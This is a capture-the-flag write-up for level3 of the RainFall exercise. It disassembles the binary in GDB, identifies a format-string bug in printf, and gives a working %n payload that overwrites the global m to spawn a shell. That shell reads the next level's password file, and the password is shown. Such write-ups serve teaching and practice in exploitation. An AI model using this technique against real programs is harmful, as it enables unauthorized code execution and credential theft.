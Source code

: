 # level3

## exploring the binary
```shell
level3@RainFall:~$ ./level3
phantom
phantom
level3@RainFall:~$ ./level3
society42
society42
```
Similar to the <code>level2</code> binary, our executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
The main function calls <code>v()</code> only upon execution.
```shell
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```
Further inspection of the function draws our attention to <code>0x080484da</code>, where a variable at <code>0x804988c</code> is moved into <code>eax</code> and compared against <code>0x40</code>.
```shell
(gdb) x/s 0x804988c
0x804988c <m>:	 ""
(gdb) print 0x40
$1 = 64
```
This means there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
Since <code>fgets()</code> is used to gather the input, buffer overflow attacks are no longer an option. While 520 bytes are allocated for the buffer (+26), the size of the input read is set to 512 bytes, effectively protecting it. The entire input string is then displayed using <code>printf()</code>, which introduces a vulnerability to a <code>format string</code> attack.

## format string attack
When the input containing format strings is passed to <code>printf()</code>, it is processed and displayed as output. If the input aligns with the expected format specifiers, it is printed correctly. However, if the input includes malicious format specifiers, it can be exploited to manipulate the output or the program's behavior. Since we know the address of <code>m</code>, we will use <code>printf()</code> to modify its value.

The format string vulnerability arises because the program utilizes user input directly in the <code>printf</code> function without adequate sanitization. By passing a string to the function and printing numerous stack addresses (<code>%p</code>) following this string, we can determine the specific stack parameter it occupies.

``` shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern3
level3@RainFall:~$ cat /tmp/pattern3 - | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found success with just 5 addresses and discovered that the string <code>AAAA</code> resides in the fourth position. With our understanding of the format string's location in the stack, our next step is to craft a string 64 characters in length, embedding the address of the variable (<code>0x0804988c</code>) crucial for triggering the shell. Subsequently, we leverage the <code>%n</code> specifier to write this length to the specified address - when the format string <code>%4$n</code> is used, printf will write the number of characters printed so far into the memory location specified by the fourth argument.

## exploit
``` shell
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "F"*60 + "%4$n"' > /tmp/flag3
level3@RainFall:~$ cat /tmp/flag3 - | ./level3
�FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
